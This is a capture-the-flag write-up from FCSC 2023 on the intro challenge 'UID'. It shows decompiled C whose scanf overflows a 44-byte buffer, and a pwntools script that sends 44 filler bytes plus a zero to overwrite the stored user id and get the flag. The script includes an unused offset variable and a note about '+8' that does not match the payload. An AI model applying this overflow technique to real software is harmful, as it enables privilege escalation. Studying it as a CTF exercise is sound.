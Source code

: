 ```yaml
---
title: CTFs | FCSC2023 | Intro | UID
author: BatBato
date: 2023-05-02
categories: [CTFs, FCSC2023, Intro]
tags: [CTF, FCSC, BoF]
permalink: /CTFs/FCSC2023/Intro/UID
---
```


# UID

![image](https://user-images.githubusercontent.com/73934639/235730343-6932dc50-9b9e-4b9a-be8a-041c644e0bf0.png)

For this chall, we had a really simple compiled C code. This code, analysed with Ghidra looked like this:

```c
undefined8 main(void)

{
  undefined local_38 [44];
  __uid_t local_c;
  
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}
```

This basically just check if your user id is equal to `0` which is the `root` uid. The length of the string was 44 chars long. So we just need to input `44` chars, followed by a 0 to overwrite the value of the `local_c` variable:

```python
from pwn import *

# offset to return address
offset = 0x44+8

# Start the process
#p = process("./uid")
p = remote('challenges.france-cybersecurity-challenge.fr', 2100)
p.recvuntil("username: ")

# Craft the payload
payload = b"A" * 44 # Fill the buffer until the end of local_38
payload += p64(0)   # Overwrite local_c with 0 (use p64 for 64-bit value)

# Send the payload
p.sendline(payload)

# Print the output
print(p.recvall().decode())
```

> Note that we added `+8` at the offset so that we can overwrite the next address.
{: .prompt-tip}

This gives us:

![image](https://user-images.githubusercontent.com/73934639/235733792-be7bbae5-10f9-4d83-a878-54888f1f7aaf.png)


